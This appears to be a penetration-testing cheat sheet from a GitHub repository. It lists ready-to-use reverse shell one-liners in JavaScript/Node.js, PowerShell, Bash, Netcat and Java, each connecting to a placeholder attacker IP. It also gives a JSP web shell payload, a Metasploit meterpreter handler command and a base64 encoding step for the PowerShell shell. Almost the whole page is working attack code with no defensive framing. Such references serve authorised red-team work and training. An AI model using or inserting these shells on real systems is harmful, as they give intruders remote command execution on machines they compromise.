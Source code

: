# Miscellaneous

---

### Table of Contents
- [Metasploit Handler Oneliner](#metasploit-handler-oneliner)
- [Reverse Shells](#reverse-shells)
  * [JavaScript](#javascript)
  * [PowerShell](#powershell)
  * [Bash](#bash)
  * [Netcat](#netcat)
  * [Java](#java)

---

## Metasploit Handler Oneliner
- Create a `Metasploit` handler in one line

```bash
# E.g. Metapreter Reverse TCP
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <attacker_ip>;set LPORT <port>;run;"
```

## Reverse Shells
- Different stuff related to reverse shells

### JavaScript
- Context specific, e.g. `nodejs` (here: without URL encode)

```js
// NOT OpenBSD netcat, doesn't know -e
require("child_process").exec('nc <attacker_ip> <port> -e /bin/bash')

// Important: Use backticks here
process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'`)

// Another approach
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(4444, "<attack_ip>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### PowerShell
- Simple oneliner for creating a `powershell` reverse shell

```powershell
# Oneliner
$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
```

-  Encode shell

```bash
iconv -f ASCII -t UTF-16LE shellcode.txt | base64 | tr -d "\n"
```

### Bash
- Doing it `bash` (and  `sh`) style

```bash
bash -l > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1

# Or

bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1

# Or
0<&196;exec 196<>/dev/tcp/<attacker_ip>/<port>; sh <&196 >&196 2>&196

# Or UDP
sh -i >& /dev/udp/<attacker_ip>/<port> 0>&1
```

### Netcat
- Reverse shell using different `netcat` flavours

```bash
# Traditional
nc <attacker_ip> <port> -e /bin/bash

# OpenBSD (no -e available)
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f
```

### Java
- If `java` is needed

```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/<attacker_ip>/<port>;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

- If `jsp` is needed (above one is not working all the time)

```jsp
<%@ page import="java.io.*" %>
<%
    try {
         Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -l > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1"});
    }
    catch(IOException e) {
         e.printStackTrace();
    }
%>
```
